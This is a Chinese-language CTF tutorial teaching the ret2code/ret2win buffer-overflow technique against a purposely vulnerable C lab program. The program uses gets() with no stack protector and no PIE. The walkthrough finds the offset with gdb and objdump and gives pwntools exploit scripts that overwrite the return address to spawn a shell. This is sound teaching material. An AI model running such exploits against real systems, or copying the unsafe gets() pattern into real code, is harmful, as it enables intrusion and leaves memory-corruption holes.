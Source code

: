 ```yaml
---
title: "Day7－ret2code (ret2func)"
date: 2024-09-07
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經過了前一天的 lab，相信大家對於 buffer overflow 的原理已經有了更多的理解。既然我們能覆蓋判斷式中的值，那麼是否也能覆蓋 return address，讓程式跳到其他位置呢？這正是我們今天要介紹的攻擊技術：ret2code，又稱為 ret2func 或 ret2win。

## 介紹

回顧之前的 stack 內容，當使用 `gets` 讀取 `buf` 字串時，可以持續覆蓋記憶體，甚至可能覆蓋到 `rbp` 和 `return address`

![image](/images/iron2024/day7_image1.png)

例如，如果我們想跳到名為 `shell` 或 `win` 的函數，可以嘗試將 stack 覆蓋成如圖所示的狀態。當程式執行到 return address 時，它就會跳轉到我們覆蓋的位置。

![image](/images/iron2024/day7_image2.png)

雖然在現實情況下，程式中不太可能直接有開啟 shell 的 function，但在一些初學者的 CTF 題目中，這類控制程式執行流程（control flow）的題目仍然存在。在進入實作之前，我們要了解這種攻擊的前提條件是：需要關閉 PIE 保護，因為我們必須知道確切要跳轉的 function 位置。

## Lab

查看以下程式原始碼：

```c=
#include<stdio.h>

void shell(){
    system("/bin/sh");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char b[10];
    puts("Send me a message: ");
    gets(b);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2code.c -o ./ret2code/share/ret2code -fno-stack-protector -no-pie
```

大家可以自行練習這道題目，或是繼續閱讀以下解題步驟。

## writeup

首先，我們注意到程式中存在一個 `shell()` 函數，這個函數會直接開啟一個 shell。另外，程式關閉了 Canary 和 PIE 保護，並使用了危險的 `gets` 函數來讀取輸入，因此我們可以嘗試使用 ret2code 技術跳轉到某個位置。在實作 ret2code 之前，我們需要解決以下兩個問題：

- 找出覆蓋到 return address 前所需的字元數。
- 確定 `shell()` function 的地址。

首先，找到覆蓋到 return address 前所需的字元數。我們可以使用 `objdump` 來 disassemble 程式，觀察指令 `lea rax,[rbp-0xa]`，這表示輸入的起始位置是 `[rbp-0xa]`。與前面不同的是，return address 前還有 8 個 bytes 的 `rbp`，所以需要填充的字元數是 `0xa + 0x8 = 0x12`，即 18 個字元。

![image](/images/iron2024/day7_image3.png)

另一種方法是使用 `gdb` 來驗證。我們先使用 `gdb ./ret2code` 啟動程式，然後在 `main` function 處設置中斷點，接著 `r` 執行程式，並 `ni` 逐步執行至輸入位置。此時，我們可以輸入有規律的字元，觀察覆蓋情況。例如輸入 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

![image](/images/iron2024/day7_image4.png)

繼續執行至 return address 處，可以看到 return address 已被覆蓋為 `0x4747464646464545`，即 `EEFFFFGG`。因此，可以確定需要填充的字元數是 `AAAABBBBCCCCDDDDEE`，共 18 個字元。

![image](/images/iron2024/day7_image5.png)

`shell()` 的 address 可以使用 `objdump` 或 `gdb` 來查找。使用 `objdump`，我們可以看到地址為 `0x401156`。

![image](/images/iron2024/day7_image6.png)

使用 `gdb` 的 `info func` 命令，也可以看到 `shell()` function 位於 `0x401156`。

![image](/images/iron2024/day7_image7.png)

現在我們可以開始編寫 exploit。我們將測試 local 端程式，輸入 `0xa + 8` 個字元，並在後面加上要修改的 return address：

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

不過執行後會發生 SIGSEGV，此時可以使用 `gdb` 來追蹤問題。

![image](/images/iron2024/day7_image8.png)

將 exploit 加上 `gdb.attach()` 並使用 `tmux` 開啟另一個視窗。`gdb.attach()` 可以指定啟動時要執行的 gdb 指令，例如設置中斷點。

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

gdb.attach(r,'b main')
context.terminal = ['tmux', 'splitw', '-h']

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

在 `tmux` 中執行 exploit，並讓執行位置回到 `main` function。

![image](/images/iron2024/day7_image9.png)

此時發現程式確實跳到 `shell()`，但遇到問題：`movaps xmmword ptr [rsp + 0x50], xmm0`，提示 `not aligned to 16 bytes`。這個問題可以參考這篇[文章](https://hack543.com/16-bytes-stack-alignment-movaps-issue/)，簡單來說，某些 libc 版本要求 `rsp` 的值必須是 16 的倍數。我們可以嘗試跳轉到前一點的位置。

![image](/images/iron2024/day7_image10.png)

例如，跳轉到 `0x401157` 或其他位置進行測試。

![image](/images/iron2024/day7_image11.png)

將 exploit 改為跳轉到 `0x401157`，並移除剛剛的 `gdb` 部分。

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

成功取得 shell！

![image](/images/iron2024/day7_image12.png)

接下來將題目架設起來，並連接到遠端。

完整 exploit：

```py=
from pwn import *

# r = process('../ret2code/share/ret2code')
r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day7_image13.png)
